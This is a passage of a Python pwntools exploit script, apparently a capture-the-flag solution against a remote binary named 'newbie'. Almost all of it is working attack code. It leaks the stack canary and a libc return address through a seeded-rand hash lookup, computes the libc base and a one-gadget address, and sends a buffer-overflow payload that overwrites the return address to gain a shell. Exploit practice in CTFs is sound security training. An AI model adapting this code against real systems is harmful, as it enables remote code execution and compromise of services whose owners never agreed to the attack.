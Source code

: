 ```python
    p.recvuntil(b'Your key: ')
    key = p.recvline().strip().decode()
    value = hashes[key]
    # Correct for the 1 and 0 collision.
    if value == 1 and toggle_zero:
        value = 0
    log.info('Offset {}: {} ({})'.format(offset, key, hex(value)))
    return value


def precompute():
    '''Pre-compute the 'hashes'
    '''
    libc = ctypes.cdll.LoadLibrary("libc.so.6")
    global hashes
    for i in range(0xffff+1):
        libc.srand(i)
        val = ''
        for j in range(32):
            val += charset[libc.rand() % len(charset)]
        hashes[val] = i
    log.info("Computed {} hashes.".format(len(hashes)))


def main():
    precompute()

    # Find the magic one gadget in the provided libc.
    libc_path = './libc-2.27.so'
    # libc_path = '/lib/x86_64-linux-gnu/libc.so.6'
    magic_offset = next(generate_one_gadget(libc_path))
    log.info('Found magic one gadget at offset: {}'.format(hex(magic_offset)))

    # Get the __libc_start_main offset
    libc_elf = ELF(libc_path)
    __libc_start_main_offset = libc_elf.libc_start_main_return
    log.info('__libc_start_main_offset: {}'.format(hex(__libc_start_main_offset)))

    # Start the program.
    # p = process("./newbie")
    p = remote('18.191.117.63', 31337)

    # Leak the canary.
    canary = 0
    for i in range(4):
        canary += (leak(p, stack_canary_offset + i)) << (16 * i)
    log.info('Leaked canary: {}'.format(hex(canary)))

    # Leak the __libc_start_main return value.
    __libc_start_main = 0
    for i in range(4):
        __libc_start_main += (leak(p, stack___libc_start_main_offset + i)) << (16 * i)
    log.info('Leaked __libc_start_main: {}'.format(hex(__libc_start_main)))
    libc_base = __libc_start_main - __libc_start_main_offset
    log.info('libc base address: {}'.format(hex(libc_base)))
    magic = libc_base + magic_offset
    log.info('Magic one gadget address: {}'.format(hex(magic)))

    # Trigger the buffer overflow.
    p.recvuntil(b'> ')
    payload = b'A'* 88 + p64(canary) + p64(0x4242424242424242) + p64(magic)
    p.sendline(payload)

```